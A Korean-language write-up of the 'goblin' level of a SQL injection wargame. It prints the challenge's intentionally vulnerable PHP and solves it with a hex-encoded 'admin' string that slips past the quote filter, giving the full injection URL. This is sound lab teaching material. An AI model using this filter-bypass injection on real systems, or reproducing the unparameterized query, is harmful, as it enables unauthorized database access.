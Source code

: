 # 3번문제 goblin

이번에는 서버가 어려워졌다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
이제 '와 "을 sql문에서 입력할 수 없게 막은 것인데,  
그래서 id='admin' 과 같이 파라미터를 보낼 수 없게됬다.

여기서 쓸 수 있는 것은, 스트링 우회법이다.  
db마다 다른데, 여기선 0x로 문자들을 16진수로 표기해도 문자열로 해석하는 점을 이용해서,

admin 을 0x61646d696e 으로 입력해준다.
(16진수로 텍스트를 변환하는 것은 https://www.online-toolz.com/langs/ko/tool-ko-text-hex-convertor.html 이 사이트를 이용했다.)

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=0x61646d696e
query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```
이렇게 해주면 뚫리는 것을 볼 수 있다.
